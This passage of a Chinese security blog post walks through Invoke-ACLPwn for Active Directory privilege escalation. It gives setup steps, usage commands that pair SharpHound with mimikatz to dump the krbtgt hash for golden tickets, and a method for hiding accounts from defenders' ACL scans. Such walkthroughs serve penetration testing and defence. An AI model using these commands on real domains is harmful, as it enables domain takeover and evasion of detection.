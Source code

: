 运行时需要.NET 3.5环境，Windows Server 2012安装遇到报错，最后的解决方法(需要在网上下载SxS的安装包[https://pan.baidu.com/share/init?surl=kDgdYerM0lVB32Q_IEqLUw提取码：gwzk)：](https://pan.baidu.com/share/init?surl=kDgdYerM0lVB32Q_IEqLUw%E6%8F%90%E5%8F%96%E7%A0%81%EF%BC%9Agwzk)%EF%BC%9A)

```
dism.exe /online /enable-feature /all /featurename:NetFX3 /Source:F:\Sources\SxS\
```

GitHub地址：[https://github.com/fox-it/Invoke-ACLPwn](https://github.com/fox-it/Invoke-ACLPwn)<br>
背景信息在发布者博客上：[https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)<br>
环境需要：

```
.NET 3.5 + sharphound.exe + mimikatz.exe
```

用法示例：

```
.\Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -NoDCSync
.\Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe
.\Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -userAccountToPwn 'Administrator'
.\Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -LogToFile
.\Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -NoSecCleanup
.\Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -Username 'testuser' -Domain 'xenoflux.local' -Password 'Welcome01!'
```

使用第一条标识了-NoDCSync（不会做DCSync的动作，只判断是否能够存在能够DCSync的权限）的命令：

[![](https://p5.ssl.qhimg.com/t01e5278a28029caf2d.png)](https://p5.ssl.qhimg.com/t01e5278a28029caf2d.png)

提示Got WriteDACL permissions.如果加上mimikatz.exe一起使用,可以看到直接获取了krbtgt的HASH值，也就是说已经可以直接生成黄金票据了：

[![](https://p1.ssl.qhimg.com/t019bbd1564b6fd1eb7.png)](https://p1.ssl.qhimg.com/t019bbd1564b6fd1eb7.png)

但是这个工具经过实际测试只适用于小型的域控，在有上百万条ACL的域内会出现跑了几天也跑不出结果的情况

### <a class="reference-link" name="%E9%92%88%E5%AF%B9DACL%E7%9A%84%E9%9A%90%E8%BA%AB%E6%96%B9%E5%BC%8F"></a>针对DACL的隐身方式

通过隐藏账户可以掩盖主体本身，阻止防御者轻易的发现谁实际上拥有ACE中指定的权限。这种方式主要应对的是对于高危的ACL进行扫描行为。

#### <a class="reference-link" name="%E9%9A%90%E8%97%8F%E7%94%A8%E6%88%B7"></a>隐藏用户

1、将要隐藏的用户所有者改为攻击者或者攻击者控制的账户<br>
2、设置一条拒绝完全控制的ACE

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0131d90c456630185e.png)
